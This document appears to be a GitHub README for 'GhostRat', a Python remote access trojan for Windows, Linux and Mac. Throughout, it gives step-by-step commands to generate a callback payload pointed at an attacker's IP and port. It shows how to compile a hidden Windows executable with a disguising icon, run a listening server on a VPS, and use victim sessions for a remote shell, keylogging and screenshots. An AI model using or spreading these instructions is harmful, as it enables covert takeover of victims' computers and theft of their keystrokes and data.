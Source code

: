 <h1 align="center"> 
    <img src="https://github.com/Ba-hub/GhostRat/raw/master/logo.png" alt="Gh0stRat" /> <br>    

</h1>
<p align="center">
    <a href="#" target="_blank"><img src="https://img.shields.io/badge/platform-cross-important" alt="platform: cross" /></a>
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <img src="https://img.shields.io/badge/version-v1.0-blue.svg?logo=moo" alt="Release: v3.1" /></a>
    <a href="https://opensource.org/licenses/MIT" target="_blank"><img src="https://img.shields.io/badge/license-MIT-green.svg" alt="lisence" /></a>
</p>
<h4 align="center"> A Cross Platform multifunctional (Windows/Linux/Mac) RAT.</h4>


## Getting Started
### Description
A cross platform RAT written in pure Python. The RAT accept commands alongside arguments to either perform as the server who accepts connections or to perform as the client/target who establish connections to the server. The **generate** command uses the module **pyinstaller** to compile the actual payload code. So, in order to generate payload file for your respective platform, you need to be on that platform while generating the file. Moreover, you can directly get the source file as well. 

### Features
<ul>
    <li>Built-in Shell for command execution</li>
    <li>Dumping System Information including drives and rams</li>
    <li>Screenshot module. Captures screenshot of client screen.</li>
    <li>Connection Loop (Will continue on connecting to server)</li>
    <li>it uses BASE64 encoding. </li>
    <li>Pure Python3</li>
    <li>Source File included for testing</li>
    <li>Make exicuteble File .exe For Windows Client</li>
</ul>


### Installation
The tool is tested on **Parrot OS** **Kali-Linux** with **Python 3.8**. 
Follow the steps for installation:
```
$ git clone https://github.com/Ba-hub/GhostRat.git
$ cd GhostRat
$ python3 -m pip install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>
The source file is to remain same on all platforms. So, you can generate it on one platform and use it on the other. Getting the source file: 

```
$ python3 server.py generate -a 192.168.225.135 -p 2021 -o /tmp/payload.py -s

cd /tmp ==> You can Find Your Build Payload
```

The compiled version has to generated on the respective platform. For example, you can't generate an .exe file on Linux. You specifically have to be on Windows. The tool is still under testing. So, all kinds of errors are accepted. Make sure to open an issue though. Generating the Compiled Version for Linux:

```
$ python3 server.py generate -a 192.168.225.135 -p 2021 -o /tmp/filer.py
```


Replace your IP Address and Port on above commands. 

### Manually Makeing Your Payload,Open GhostRat.py use nano, Vim Or Leafpad.
```

CONSTIP = "192.168.225.178" # Change IP
CONSTPT = 2021 # Change Port 


```
Enter Your system IP address & Port Number & Save It 

### Make Exicute Files For Windows 
```
pyinstaller --onefile --noconsole --icon=ytb.ico GhostRat.py

```
After Processing Complete Open /Dist Folder 

### Running Server
The server must be executed on Linux. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 server.py bind --address 0.0.0.0 --port 2021
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

### Support
<h1> Made By : Ghosthub </h1> 
